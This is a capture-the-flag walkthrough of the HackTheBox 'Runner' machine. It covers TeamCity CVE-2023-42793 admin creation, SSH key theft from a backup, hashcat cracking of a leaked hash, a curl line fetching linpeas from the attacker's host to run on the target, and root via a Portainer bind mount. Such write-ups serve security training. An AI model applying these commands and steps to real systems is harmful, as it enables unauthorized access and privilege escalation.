 # Runner

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

## Enumeration

```bash
nmap -v -A -p- -Pn runner.htb -oN nmap
```

```bash
Nmap scan report for runner.htb (10.10.11.13)
Host is up (0.049s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Runner - CI/CD Specialists
8000/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/22%OT=22%CT=1%CU=42865%PV=Y%DS=2%DC=T%G=Y%TM=664D
OS:FAC7%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53C
OS:ST11NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Uptime guess: 19.482 days (since Fri May  3 04:27:54 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   47.95 ms 10.10.14.1
2   48.01 ms runner.htb (10.10.11.13)

NSE: Script Post-scanning.
Initiating NSE at 16:01
Completed NSE at 16:01, 0.00s elapsed
Initiating NSE at 16:01
Completed NSE at 16:01, 0.00s elapsed
Initiating NSE at 16:01
Completed NSE at 16:01, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.29 seconds
           Raw packets sent: 65811 (2.900MB) | Rcvd: 65640 (2.629MB)
```

### Port 80

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

If we try to enumerate directories or files present we get nothing with generic wordlists. Instead, by generating a custom wordlist with `cewl` from the website pages we get an interesting result:

```bash
cewl -d 2 -m 3 http://runner.htb -w wordlist.txt --lowercase
```

<figure><img src="../../.gitbook/assets/image (691).png" alt=""><figcaption></figcaption></figure>

Now add the new subdomain enumerated in /etc/hosts and continue enumeration...

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>

We also find on the Jetbrains site the [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-42793) listed and from which version onward it was fixed:

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

## Exploitation (foothold)

The exploit simply relies on interacting with some APIs that do not involve authentication in order to create an administrator user even without being authenticated on a TeamCity server. It sends a POST request to the target URL to create an admin user with specified or random credentials.

{% code overflow="wrap" %}
```bash
python3 exploit.py -u http://teamcity.runner.htb -v -n lilpil -p password1_ -e lilpil@runner.htb -t token.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

If we now login using these credentials we obtain a success. In particular, under "Users" section we see there are `Matthew` and `John` users:

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

There also appears to be a Backup section within the administrative console that allows you to download a backup of everything as shown in the figure:

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

Unzipping the directory and exploring it we will find an id\_rsa key file:

<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

If we try to SSH as matthew we obtain an error instead as john is a success and we can get the user flag:

<figure><img src="../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Within the downloaded backup, however, there is also a database\_dump folder containing a users file with hashes of TeamCity users:

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

If we try to crack it using Hashcat:

{% code overflow="wrap" %}
```bash
hashcat -m 3200 matthew.hash /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

We will obtain also matthew credentials: `matthew` <-->`piper123`

Login as matthew using SSH or su from John console do not work...

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

## Enumeration

Download using curl (wget is not present on the machine) the linpeas from attacking machine and run it:

```
curl http://10.10.15.101:8888/linpeas.sh -o linpeas.sh && chmod 777 linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

There is a configuration on the nginx server that exposes another website: `portainer-administration.runner.htb`

<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

Trying matthew credentials (are the only ones we know!) we can login:

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:yellow;">**Portainer**</mark> is a graphical container management platform that facilitates the process of managing, monitoring and maintaining Docker and Kubernetes environments. It allows users to manage their containerized applications through a simple web user interface, without the need to use the command line.
{% endhint %}

In Portainer, an “environment” represents a managed instance of a container orchestration platform, such as Docker or Kubernetes. An environment can be a single machine with Docker installed, a Kubernetes cluster, a Docker Swarm instance, or a remote Docker instance. There are different types of Environment in Portainer, the one we find configured is a Docker Standalone i.e. a single Docker node.

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

There are 0 running containers but 2 locally downloaded images are present:

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

If we try to download another image like `node` we will obtain an error:

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

A very quick privilege escalation would have been to create a container in privilege mode. The <mark style="color:yellow;">**privileged mode**</mark> of a Docker container is a mode that grants the container more privileges than the default privileges. When a container is run in privileged mode, it gains access to all the capabilities of the host kernel, which means it can do almost anything the host operating system can do including:

* The container can access all devices on the host system, including network devices, storage devices, and other
* The container has access to all kernel capabilities, allowing operations that would normally be restricted or prohibited for unprivileged containers
* The container can mount filesystems from the host system
* The container can upload and download kernel modules
* The container can modify various system and network parameters, similar to how a root user would do on the host system.

However, since user matthew is not the administrator of portainer.io it would appear to have been disabled:

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (692).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://medium.com/@moein.moeinnia/understanding-docker-mounts-volumes-bind-mounts-and-tmpfs-f992185edc27" %}

{% hint style="info" %}
By default <mark style="color:yellow;">**host directories**</mark> are not available in the _**container file system**_ , but with bind mounts we can access the host filesystem. bind mount is a way to connect or link a directory or file from your computer’s file system to a specific location inside a Docker container.

You can easily update the files on your computer, and the changes will be instantly reflected inside the container **without the need to rebuild or modify the container itself.**

Bind mounts tightly couple the container to the host machine’s filesystem, which means that processes running in a container **can** **modify the host filesystem**. This includes creating, modifying, or deleting system files or directories. Therefore, it is crucial to be cautious with permissions and ensure proper access controls to prevent any security risks or conflicts.
{% endhint %}



However, if we try to create a volume from the Volumes section. There are several options that can be set when creating the volume. One of them is the Bind Mounts type.

<figure><img src="../../.gitbook/assets/image (693).png" alt=""><figcaption></figcaption></figure>

you need to specify the type `bind`:

<figure><img src="../../.gitbook/assets/image (698).png" alt=""><figcaption></figcaption></figure>

Now we can finally create the container mapping host file system inside the container file system:



<figure><img src="../../.gitbook/assets/image (695).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (696).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (697).png" alt=""><figcaption></figcaption></figure>

Opening the console we can root the machine :tada:

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>
